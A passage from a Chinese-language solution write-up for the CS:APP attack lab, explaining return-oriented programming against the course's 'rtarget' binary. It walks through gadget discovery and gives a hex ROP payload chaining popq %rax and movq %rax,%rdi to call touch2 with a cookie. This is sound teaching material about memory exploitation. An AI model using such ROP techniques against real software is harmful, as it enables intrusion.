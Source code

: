 可以看到，我们将cookie字符串存放在栈帧的较高地址处，以避免其被覆盖。

## part2：Return-Oriented Programming

在本部分中，我们需要对保护机制比较完善的`rtarget`程序进行攻击，在此程序中应用了随机化栈空间和限制可执行代码段的保护机制，使得我们在栈帧中插入的汇编代码不能被执行。因此，我们需要利用一种叫做Return-Oriented Programming的方式进行攻击，其原理是利用程序中的原有部分的代码片段构造可用于攻击的小工具代码段（gadgets）。这种代码段的特点是其以`0xc3`即`ret`作为代码段的结尾，使得执行其后`%rsp`的值被加以8，而在此地址中，我们又可以安排下一段代码段，通过此方式即可构造我们所需的攻击代码。

![image-20211226142648509](https://github.com/jlu-xiurui/csapp-labs/blob/master/solution/lab3-attack/figure1.png)

值得注意的是，我们可以利用一段汇编代码中的一部分构造另外的汇编代码，例如：

`4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax`

在这段代码中，我们可以从0x4019a2处执行该代码片段，使得其变为如下的汇编代码：

```assembly
4019a2 : 48 89 c7  /* movq %rax,%rdi
4019a5 : c3        /* retq
```

### phase4

在此部分中，我们需要利用`rtarget`执行phase2中相同的攻击，通过实验手册的提示，我们可以知道可以被利用的工具代码段（gadgets）位于`start_farm()`和`mid_farm()`之间。

首先，我们需要在这段代码区间中寻找可能有用的gadgets（为了表示简洁，在这里忽略了末尾的`ret`，但其是存在的）：

```assembly
4019a2: movq %rax,%rdi
4019ab: popq  %rax
```

以上两个gadgets即为该区间中仅有的可能有用的代码片段。因此，为了使得cookie的数值表示传入`%rdi`，我们可以先利用`popq %rax`将栈帧中的数值传入`%rax`，再通过`movq %rax,%rdi`使得该值传入`%rdi`。因此，我们可以构造如下的hex文件`rtarget1`：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* popq %rax */
fa 97 b9 59 00 00 00 00 /* the hex of rookie to be pop into %rax */
a3 19 40 00 00 00 00 00 /* movq %rax,%rdi */
ec 17 40 00 00 00 00 00 /* the address of touch2 */
```

在这里，我讲解一下该代码的具体执行步骤以帮助理解：

* 首先，`getbuf`中调用`ret`返回至`0x4019ab`，在程序计数器`pc`指向`0x4019ab`的同时，`%rsp`中的数值加8并指向`fa 97 b9 59 00 00 00 00 `。

* 执行`popq %rax`操作，使得`%rsp`指向的数值被传入`%rax`，同时`%rsp`中的数值加8并指向`a3 19 40 00 00 00 00 00`，并且`pc`跳转至地址连续的下一指令`4019a5 : c3`，即`ret` 。

* 执行`ret`操作，`pc`跳转至`%rsp`所指向的地址，即`movq %rax,%rdi`。

